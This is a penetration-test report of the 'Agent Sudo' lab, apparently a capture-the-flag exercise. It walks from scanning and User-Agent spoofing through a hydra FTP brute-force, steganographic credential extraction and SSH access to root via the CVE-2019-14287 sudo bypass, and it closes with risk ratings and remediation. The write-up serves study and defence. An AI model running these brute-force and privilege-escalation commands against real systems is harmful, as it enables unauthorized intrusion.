---

# **Penetration Test Report: Agent Sudo**

---

### **TL;DR**

The target system was successfully compromised through a multi-stage attack chain involving information disclosure, weak credentials, steganography, and a vulnerable sudo configuration.

Initial enumeration revealed a web application that relied on User-Agent values for access control. By manipulating the User-Agent header, a valid username was disclosed. A password attack against the FTP service resulted in successful authentication, allowing retrieval of several files. Analysis of the downloaded artifacts uncovered hidden data through steganographic techniques, ultimately revealing SSH credentials for a second user.

After obtaining SSH access, privilege escalation was achieved by exploiting CVE-2019-14287 in a vulnerable sudo version, resulting in full root access to the system.

---

### **Target Information**

- **Target IP:** 10.113.154.110
- **Operating System:** Ubuntu Linux
- **Open Ports:**
    - 21/tcp (FTP - vsftpd 3.0.3)
    - 22/tcp (SSH - OpenSSH 7.6p1)
    - 80/tcp (HTTP - Apache 2.4.29)
- **Assessment Type:** Authorized lab environment

---

### **Executive Summary**

The assessment identified several security weaknesses that, when chained together, enabled complete compromise of the target host.

The attack began with reconnaissance and service enumeration. The web application disclosed sensitive information based on manipulated User-Agent headers, allowing identification of a valid username. Weak FTP credentials were subsequently discovered through password bruteforcing and used to obtain access to files containing steganographically hidden information.

Multiple layers of hidden data, including an embedded ZIP archive, Base64-encoded information, and encrypted steganographic content, ultimately revealed valid SSH credentials. Following successful SSH authentication, a vulnerable sudo configuration combined with an outdated sudo version enabled privilege escalation to root through exploitation of CVE-2019-14287.

**Key Findings:**

| Finding | Severity | Impact |
| --- | --- | --- |
| User-Agent Information Disclosure | Medium | Disclosure of valid usernames |
| Weak FTP Credentials | High | Unauthorized access to sensitive files |
| Sensitive Information Hidden in Files | High | Disclosure of additional credentials |
| SSH Credential Exposure | Critical | Initial shell access obtained |
| CVE-2019-14287 (Sudo Privilege Escalation) | Critical | Full root compromise |

---

### **Scope and Methodology**

**Scope**

- **Target:** 10.113.154.110
- **Application:** Agent Sudo Lab Environment
- **Ports/Protocols in Scope:**
    - HTTP (80/TCP)
    - FTP (21/TCP)
    - SSH (22/TCP)

**Methodology**

The assessment followed a structured penetration testing methodology:

1. **Reconnaissance & Enumeration:** host discovery, port scanning, service enumeration, web application analysis
2. **Vulnerability Analysis:** review of application behavior, authentication testing, file analysis, steganography analysis
3. **Exploitation:** credential attacks, authentication bypass techniques, credential harvesting
4. **Post-Exploitation & Privilege Escalation:** local enumeration, misconfiguration analysis, public exploit research, privilege escalation
5. **Documentation:** evidence collection, attack path reconstruction, risk assessment

---

### **Findings and Exploitation**

**Vulnerability Summary**

The web application relied on User-Agent values to determine access permissions and exposed internal information to unauthenticated users. This disclosure enabled identification of a valid username, which was later leveraged during password attacks against exposed services.

Weak credentials allowed access to an FTP account containing files with hidden information. Through steganographic analysis and password recovery techniques, additional credentials were obtained and used to gain SSH access.

**Technical Walkthrough**

1. **Host Discovery**

    The target host was verified as reachable using ICMP:

    ```bash
    ping -c 4 10.113.154.110
    ```

    Results confirmed host availability and network connectivity.

    

2. **Service Enumeration**

    An Nmap scan identified three accessible services:

    ```bash
    nmap -sS -sV -sC -T4 10.113.154.110
    ```

    

    Discovered services:

    - FTP (vsftpd 3.0.3)
    - SSH (OpenSSH 7.6p1)
    - HTTP (Apache 2.4.29)

3. **Web Application Analysis**

    Directory brute-forcing provided no useful results.

    Inspection of HTTP responses revealed behavior dependent on the User-Agent header.

    

    Using a spoofed User-Agent value:

    ```bash
    curl -A "C" -L http://10.113.154.110
    ```

    The application disclosed the following information:

    - Valid username: **chris**
    - Reference to weak password practices

    

4. **FTP Credential Attack**

    A password attack was performed against FTP using Hydra:

    ```bash
    hydra -l chris -P rockyou.txt 10.113.154.110 ftp
    ```

    Successful credentials:

    

    ```
    Username: chris
    Password: c*****al
    ```

5. **FTP Access and File Discovery**

    After authenticating to FTP, the following files were identified:

    ```
    To_agentJ.txt
    cute-alien.jpg
    cutie.png
    ```

    

    All files were downloaded for analysis.

6. **Steganographic Analysis**

    The note `To_agentJ.txt` indicated hidden content within the images.

    Binwalk analysis of `cutie.png` revealed an embedded encrypted ZIP archive.

    ```bash
    binwalk - M e cutie.png
    ```

    Because automated extraction failed, the ZIP archive was manually carved from the image using `dd`.

7. **ZIP Password Recovery**

    The ZIP archive was protected with a password.

    The hash was extracted using:

    

    John the Ripper successfully recovered the password:

    

8. **Hidden Message Recovery**

    The extracted file contained:

    

    Decoding the Base64 string revealed:

    ```
    Area51
    ```

9. **JPEG Steganography Extraction**

    

    The recovered value was used as the passphrase for steghide:

    ```bash
    steghide extract -sf cute-alien.jpg
    ```

    

    A hidden message revealed SSH credentials:

    

    ```
    Username: james
    Password: h*******s!
    ```

10. **Initial SSH Access**

    Using the recovered credentials:

    ```bash
    ssh james@10.113.154.110
    ```

    A shell was obtained successfully.

    

---

### **Post-Exploitation & Privilege Escalation**

**Vulnerability Summary**

Local enumeration identified a sudo configuration that prohibited execution as root but allowed execution as all other users:

```bash
(ALL, !root) /bin/bash
```

The installed sudo version was:

```bash
1.8.21p2
```

This version is vulnerable to CVE-2019-14287.

**Technical Walkthrough**

1. **Sudo Enumeration**

    ```bash
    sudo -l
    ```

    Output:

    

    ```bash
    (ALL, !root) /bin/bash
    ```

2. **Version Verification**

    ```bash
    sudo --version
    ```

    Output:

    ```
    Sudo version 1.8.21p2
    ```

3. **Vulnerability Research**

    Research identified the host as vulnerable to CVE-2019-14287, which allows bypassing RunAs restrictions by specifying the user ID:

    ```
    4294967295
    ```

4. **Exploitation**

    The vulnerability was exploited with:

    ```bash
    sudo -u \#$((0xffffffff)) /bin/bash
    ```

    Result:

    ```
    root@agent-sudo:~#
    ```

    

    Full administrative access was obtained.

---

### **Risk Assessment**

| Finding | Description | Likelihood | Impact | Risk Rating |
| --- | --- | --- | --- | --- |
| User-Agent Information Disclosure | Internal information disclosed to unauthenticated users | Medium | Medium | Medium |
| Weak FTP Password | Easily guessed credentials | High | High | High |
| Steganographically Stored Credentials | Sensitive information stored insecurely | High | High | High |
| SSH Credential Exposure | Direct shell access | High | Critical | Critical |
| CVE-2019-14287 | Privilege escalation to root | High | Critical | Critical |

### **Risk Factor Analysis**

| Risk Factor | Analysis |
| --- | --- |
| Attack Complexity | Low |
| Required Privileges | None initially |
| User Interaction | Not required |
| Exploit Availability | Publicly available |
| Impact on Confidentiality | Complete compromise |
| Impact on Integrity | Complete compromise |
| Impact on Availability | Complete compromise |

---

### **Conclusion**

The target host was fully compromised through a chain of weaknesses that included information disclosure, weak credentials, insecure storage of sensitive information, and a vulnerable sudo configuration.

An attacker with no prior access could enumerate services, obtain valid credentials, gain shell access, and escalate privileges to root. The attack required only publicly available tools and known exploitation techniques.

The most critical issue identified was the presence of CVE-2019-14287, which enabled immediate privilege escalation from a low-privileged account to full root access.

---

### **Recommendations**

1. Upgrade sudo to a version not affected by CVE-2019-14287.
2. Remove unsafe sudo configurations such as `(ALL, !root)`.
3. Enforce strong password policies for all user accounts.
4. Disable password-based authentication where possible and implement SSH key authentication.
5. Avoid storing credentials in files, images, or hidden steganographic containers.
6. Implement account lockout and rate-limiting protections on authentication services.
7. Review FTP usage and disable the service if it is not required.
8. Avoid using User-Agent values for authorization or access control decisions.
9. Conduct periodic vulnerability assessments and patch management reviews.
10. Monitor authentication logs for brute-force and credential-stuffing activity.